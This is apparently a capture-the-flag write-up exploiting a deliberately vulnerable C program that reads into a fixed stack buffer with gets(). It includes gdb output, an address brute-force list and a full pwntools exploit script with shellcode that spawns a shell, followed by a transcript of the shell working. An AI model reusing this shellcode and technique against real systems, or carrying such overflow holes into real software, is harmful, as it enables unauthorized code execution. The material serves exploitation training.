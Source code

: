 The exploit I have here will most lijeky not work if it is copy and pasted without reconfiguring it. Let's take a look at the source code...

```
#include <stdio.h>
#include <string.h>

void nothing()
{
	char* buf0[50];
	gets(buf0);
}

int main()
{
	printf("There, now you have less than nothing. Yet you still try. Some would recogmedn a psychologist. I recogmend natural selection\n");
	nothing();
}
```

So looking at this code, it looks pretty similar to the previous challenge. In fact it is pretty much just a copy and paste of the last challenge. However it is missing one thing that made our lives easy. It is no longer printing out the address of the buffer, so we will have to find that ourselves. Now there are a lot of different methods you could go about finding the address. However that address changes for things such as running at a different privilege level, and if it is in gdb. What we can do for this instance is we can look at the address in gdb. This won't be the exact address, however using that address as a base we should be able to brute force the actual address. Let me show you.

```
gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x0804841b <+0>:	push   ebp
   0x0804841c <+1>:	mov    ebp,esp
   0x0804841e <+3>:	sub    esp,0xd8
   0x08048424 <+9>:	sub    esp,0xc
   0x08048427 <+12>:	lea    eax,[ebp-0xd0]
   0x0804842d <+18>:	push   eax
   0x0804842e <+19>:	call   0x80482e0 <gets@plt>
   0x08048433 <+24>:	add    esp,0x10
   0x08048436 <+27>:	nop
   0x08048437 <+28>:	leave  
   0x08048438 <+29>:	ret    
End of assembler dump.
gdb-peda$ b *nothing+24
Breakpoint 1 at 0x8048433
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b5/b5 
There, now you have less than nothing. Yet you still try. Some would recogmedn a psychologist. I recogmend natural selection
0000
```

One wall of text later...

```
Breakpoint 1, 0x08048433 in nothing ()
gdb-peda$ x/20x $ebp-0xd0
0xffffcf68:	0x30303030	0xf7e6a300	0xf7fb4d60	0x0804a008
0xffffcf78:	0x0000007d	0xf7e6c3ac	0x0804856b	0xf7fb4d60
0xffffcf88:	0x00000001	0xf7e6d2d4	0x0000007d	0x0000000a
0xffffcf98:	0xf7fb5870	0xf7e6c12d	0xf7fb4d60	0x0804a008
0xffffcfa8:	0xf7fb4d60	0xf7e6c47b	0xf7fb4d60	0x0804a008
```

So as you can see the address of the buffer is stored at 0xffffcf68. If we were to hardcode that address into our exploit the exploit will work, however only when we run it in gdb under the same settings. However if you notice something with all of the subsequent addresses, the are stored in 16 byte increments. If the address that we saw from gdb servers as a rough estimate, then we should be able to move up and down from 0xffffcf68 untill we find an address that works. Here is a list of the addresses I went through, before I found one that worked.

```
0xffffcf58
0xffffcf48
0xffffcf38
0xffffcf78
0xffffcf88
```

And then I found the address that worked for me, 0xffffcf88. Here is my exploit script with the address hard coded in (yes it is the same script from the last challenge with one line changed).

```
#Import the pwntools library.
from pwn import *

#The process is like an actualy command you run, so you will have to adjust the path if your exploit isn't in the same directory as the challenge.
target = process("./b5")

#Just receive the first line, which for our purposes isn't important.
target.recvline()

#Hardcode in the address of the buffer
address = "0xffffcf88"

#Convert the string to a hexidecimal
address = int(address, 16)

#Pack the hexidecimal in little endian for 32 bit systems
address = p32(address)

#Store the shellcode in a variable
shellcode = "\x6a\x18\x58\xcd\x80\x50\x50\x5b\x59\x6a\x46\x58\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80"

#Make the filler to reach the eip register
filler = "0"*178

#Craft the payload
payload = shellcode + filler + address

#Send the payload
target.sendline(payload)

#Drop into interactive mode so you can use the shell
target.interactive()
```

Let's try out the exploit.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b5$ python exploit.py 
[+] Starting local process './b5': Done
[*] Switching to interactive mode
$ echo Is this working?
Is this working?
$ ls
Readme.md  b5  b5.c  b5_secure    b5_secure.c  exploit.py  out
$ cat out
If you don't stop trying to leave, we can't have a celebration for you. Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b5' stopped with exit code 0
[*] Got EOF while sending in interactive
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b5$ 
```

And just like that we pwned the binary. Since this is so similar to the previous challenge, if you want to patch this please refer to the previous challenge.
